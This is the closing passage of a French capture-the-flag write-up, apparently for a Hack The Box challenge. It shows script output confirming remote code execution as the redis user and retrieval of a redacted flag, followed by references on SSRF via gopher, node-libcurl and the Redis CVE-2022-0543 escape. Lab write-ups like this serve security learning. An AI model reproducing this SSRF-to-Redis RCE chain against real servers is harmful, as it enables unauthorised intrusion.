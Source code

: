 
J'ai réussi à obtenir la **RCE** sur l'hôte.

```zsh
$ python script.py
{'message': 'Unknown error occured while fetching the image file: $48
uid=101(redis) gid=101(redis) groups=101(redis)

+OK
'}
```

Le flag se trouvait à la *racine* du système en tant qu'exécutable.

```zsh
$ python script.py
{'message': 'Unknown error occured while fetching the image file: $32
HTB{<REDACTED>}
+OK
'}
```

## References

- https://www.vaadata.com/blog/fr/comprendre-la-vulnerabilite-web-server-side-request-forgery-1/
- https://www.vaadata.com/blog/wp-content/uploads/2022/01/SSRF_vulnerabilite_cheat_sheet.pdf
- https://www.npmjs.com/package/node-libcurl
- https://docs.kernel.org/filesystems/proc.html
- https://redis.io
- https://fr.wikipedia.org/wiki/Gopher
- https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md
- https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce
